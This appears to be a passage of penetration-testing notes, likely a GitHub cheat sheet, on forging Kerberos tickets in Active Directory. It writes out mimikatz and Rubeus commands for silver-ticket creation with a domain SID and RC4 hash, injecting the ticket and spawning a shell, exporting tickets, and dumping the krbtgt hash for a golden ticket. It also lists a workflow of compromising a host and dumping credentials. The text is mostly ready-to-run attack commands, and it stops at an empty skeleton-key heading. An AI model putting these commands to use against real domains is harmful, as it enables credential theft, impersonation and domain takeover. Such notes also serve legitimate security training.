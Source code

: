 
2. Make Silver ticket
```powershell

mimikatz # kerberos::purge

mimikatz # kerberos::list

# generate RC4 hashed password now with Rubeus, for instance

mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

#finally launch cmd on behalf of impersonated service
mimikatz # misc::cmd

```

Export tickets to kali

```bash

mimikatz # kerberos::list /export



```


#### Rubeus Workflow

Typical workflow:
1. Compromise some Computer within AD
2. Dump Hash: mimikatz, lsassy (more silent)
3. Forge NTLM hash RC4 (or better) for later use
compromised password -> https://www.browserling.com/tools/ntlm-hash
4. Forge ticket using rubeus:
`Rubeus.exe silver /service:SQL/dc1.local.com /ldap /creduser:lab.local\svc_sql /user:Administrator /rc4:64F12CDDAA88057E06A81B54E73B949B /credpassword:Password1` (nrever use such weak passwords, its for demonstration only)

Reference: https://www.hackingarticles.in/a-detailed-guide-on-rubeus/

### Golden Ticket

#### Mimikatz Golden Ticket

1. Dump SID and hash and inject it into memmory

`lsadump::lsa /inject /name:krbtgt`

2. Create golden Ticket

`Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:`

## Sekeleton key
